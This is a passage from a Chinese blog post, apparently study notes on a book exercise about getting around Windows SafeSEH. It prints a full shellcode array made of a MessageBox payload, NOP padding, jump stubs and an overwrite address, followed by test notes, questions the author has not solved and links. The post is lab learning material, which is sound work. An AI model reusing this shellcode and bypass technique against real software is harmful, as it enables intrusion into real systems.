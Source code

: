 我把payload换成之前的Messagebox弹窗就可以了（只有168个字节，后面是40个nop填充，被覆盖也没关系）：

```c
char shellcode[] = 
// 168 messagebox
"\xfc\x68\x6a\x0a\x38\x1e\x68\x63\x89\xd1\x4f\x68\x32\x74\x91\x0c"
"\x8b\xf4\x8d\x7e\xf4\x33\xdb\xb7\x04\x2b\xe3\x66\xbb\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xd2\x64\x8b\x5a\x30\x8b\x4b\x0c\x8b"
"\x49\x1c\x8b\x09\x8b\x69\x08\xad\x3d\x6a\x0a\x38\x1e\x75\x05\x95"
"\xff\x57\xf8\x95\x60\x8b\x45\x3c\x8b\x4c\x05\x78\x03\xcd\x8b\x59"
"\x20\x03\xdd\x33\xff\x47\x8b\x34\xbb\x03\xf5\x99\x0f\xbe\x06\x3a"
"\xc4\x74\x08\xc1\xca\x07\x03\xd0\x46\xeb\xf1\x3b\x54\x24\x1c\x75"
"\xe4\x8b\x59\x24\x03\xdd\x66\x8b\x3c\x7b\x8b\x59\x1c\x03\xdd\x03"
"\x2c\xbb\x95\x5f\xab\x57\x61\x3d\x6a\x0a\x38\x1e\x75\xa9\x33\xdb"
"\x53\x68\x2d\x6a\x6f\x62\x68\x67\x6f\x6f\x64\x8b\xc4\x53\x50\x50"
"\x53\xff\x57\xfc\x53\xff\x57\xf8"
// 40 nop
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
// long jmp
"\xE9\x2B\xFF\xFF\xFF\x90\x90\x90"
// short jmp
"\xEB\xF6\x90\x90"
// addr of call [ebp + 0x30]
"\x0b\x0b\x28\x00";
```

测试：

![Bildschirmfoto 2018-08-30 um 5.35.00 PM.png]({{ site.url }}/images/0day/DF1F9C7517617AF0767008F851FA3EB8.png)

其实整个过程中还有一些可以深入研究的东西，比如在进行异常处理时为什么`[ebp + 0x30]`处恰好就是SEH节点的后向指针呢？这应该与异常处理的机制有关。另外，为什么我的shellcode后面四个字节会被覆盖成0呢？是不是GS的一些机制我还不了解？(unsolved)

最后引用作者一句话：熟悉、可爱、活泼的对话框是不是又出现了？

## 利用Adober Flash Player ActiveX控件绕过SafeSEH (unsolved)

- [利用 Adobe Flash Player ActiveX 控件绕过 SafeSEH（问题及解决方法）](https://blog.csdn.net/Plus_RE/article/details/77451463)

我无法从Adobe官网下载旧版FLash Player，在网络上其他地方也没有找到，所以先略过本节。

## 总结

可以看看别人的笔记：

- [《0day安全》——盲羊补牢：SafeSEH](http://oldblog.giantbranch.cn/?p=519)
- [0day安全safeSEH绕过实验](https://larry.ngrep.me/2017/10/22/0day-safeseh-bypass-exercise/)
